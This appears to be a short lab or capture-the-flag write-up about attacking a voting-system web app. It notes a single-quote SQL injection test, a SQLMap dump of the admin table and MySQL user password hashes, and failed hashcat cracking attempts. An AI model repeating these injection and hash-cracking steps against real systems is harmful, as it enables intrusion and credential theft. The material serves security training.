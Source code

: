 # SQL injection
* Setting voter to a single quote (') yields an interesting response

![[Pasted image 20210605182433.png]]
* This means it's probably vulnerable to SQL injection, try running SQLMap on it

```sql
Database: votesystem
Table: admin
[1 entry]
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| id | photo                       | lastname | password                                                     | username | firstname | created_on |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| 1  | facebook-profile-image.jpeg | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+

```
* SQLMap leaks a password hash for user admin
	* This is a bcrypt hash, try cracking with hashcat
		* Hashcat determines it would be a ~3 day wait to crack hash -> dead end
* SQLMap leaks another password hash:
```sql
database management system users password hashes:
[*] pheobe [1]:
    password hash: NULL
[*] phoebe [1]:
    password hash: *8011380027B5ACED186B2FF99181FE050E5CA7A8
[*] pma [1]:
    password hash: NULL
[*] root [1]:
    password hash: NULL
```
* Couldn't crack this hash using rockyou and a couple simple hashcat rules 